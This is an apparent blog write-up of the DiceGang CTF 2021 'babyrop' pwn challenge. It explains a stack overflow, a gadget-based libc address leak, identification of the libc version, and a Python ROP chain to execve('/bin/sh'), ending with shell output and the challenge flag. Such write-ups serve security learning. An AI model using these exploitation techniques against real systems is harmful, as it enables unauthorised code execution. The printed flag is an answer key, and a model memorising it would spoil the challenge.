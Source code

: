 ```yaml
---
layout: post
title: DiceGang CTF 2021 - babyrop [pwn]
author: hugsy
tags: [pwn,dicegang,rop,]
date: 2021-02-08 18:37
---
```


 * Competition: [DiceGang CTF 2021]()
 * Challenge Name: BabyRop
 * Type: Pwn
 * Points: 116 pts
 * Description:
 > "FizzBuzz101: Who wants to write a ret2libc"
 >
 > nc dicec.tf 31924


This was a beginner level challenge which as the name suggests is all about ROP. Some basic fingerprinting on the `babyrop` binary gives us useful information, such as no canary and partial RelRO.

<!--more-->
```bash
$ file babyrop
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a721f8e2550d74dddcaae7e8754bff9095e3488d, for GNU/Linux 3.2.0, not stripped
$ checksec babyrop
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Opening the binary in a disassembler and the vulnerability becomes obvious: it's a basic stack overflow.

![img](https://i.imgur.com/2sB9fCv.png)

And we can quickly determine the distance to control `$rip` (since there's no canary)

```
0:000 ➤  pattern search $rsp
[+] Searching '$rsp'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search)
```

However, the libc version is unknown and we don't have enough gadgets in the binary itself to trigger a call to `system()` or make a `syscall`. After a bit of search, we spotted 2 interesting gadgets:

- `0x4011b0` would call an arbitrary location if we control r15 and rbx (and the parameter arguments)
![img](https://i.imgur.com/8T0TTPH.png)
- `0x4011ca` would pop all the required registers
![img](https://i.imgur.com/NotESgM.png)

The binary uses `gets` and `write` therefore we have enough to build an arbitrary `read` primitive.

```python
def read(addr, length):
    pop_rbx_rbp_r12_r13_r14_r15 = 0x4011ca
    call_r15_rbx = 0x4011b0

    return flat(
        p64(pop_rbx_rbp_r12_r13_r14_r15),
        p64(0),
        p64(1),
        p64(1),
        p64(addr),
        p64(length),
        p64(0x0404018),
        p64(call_r15_rbx),
        b"JUNKJUNK"*7,
    )
```

If we apply it to the GOT of `write` (GOT 0x404018) and `gets` (GOT 0x404020), we have all we need to leak 2 libc addresses:

```
[*] leaking libc addresses...
[+] write: 0x7ffff7eda1d0
[+] gets: 0x7ffff7e4faf0
```

From just those 2 addresses, we can determine the libc using https://libc.blukat.me, which [pointed to `libc6_2.31-0ubuntu9.1_amd64`](https://libc.blukat.me/?q=write%3A0x7f859309e1d0%2Cgets%3A0x7f8593013af0).


In this case, the size of the ropchain is not a problem, so I downloaded the libc and used [`ropper`](https://github.com/sashs/Ropper) with its `--chain` argument to get easily a working chain to do `execve("/bin/sh")`

```python
    # shellcode from ropper --chain="execve cmd=/bin/sh""
    rebase_0 = lambda x : p64(x  + libc_base)
    rop = b''
    rop += rebase_0(0x000000000002911d) # 0x000000000002911d: pop r13; ret;
    rop += b'//bin/sh'
    rop += rebase_0(0x00000000000331ff) # 0x00000000000331ff: pop rbx; ret;
    rop += rebase_0(0x00000000001eb1a0)
    [...]
    rop += rebase_0(0x000000000004a550) # 0x000000000004a550: pop rax; ret;
    rop += p64(0x000000000000003b)
    rop += rebase_0(0x0000000000066229) # 0x0000000000066229: syscall; ret;
```

That's it, put it all together and we have a [working exploit](https://gist.github.com/hugsy/d8d2a775d8ca4604596aa90ecaccd48e) we can execute remotely, and cat the flag:

```bash
$ ./xp.py
[...]
[+] write: 0x7ffff7eda1d0
[+] gets: 0x7ffff7e4faf0
[+] libc:0x7ffff7dc9000
[+] system:0x7ffff7e1e419
[*] Switching to interactive mode
$ cat flag.txt
dice{so_let's_just_pretend_rop_between_you_and_me_was_never_meant_b1b585695bdd0bcf2d144b4b}
```
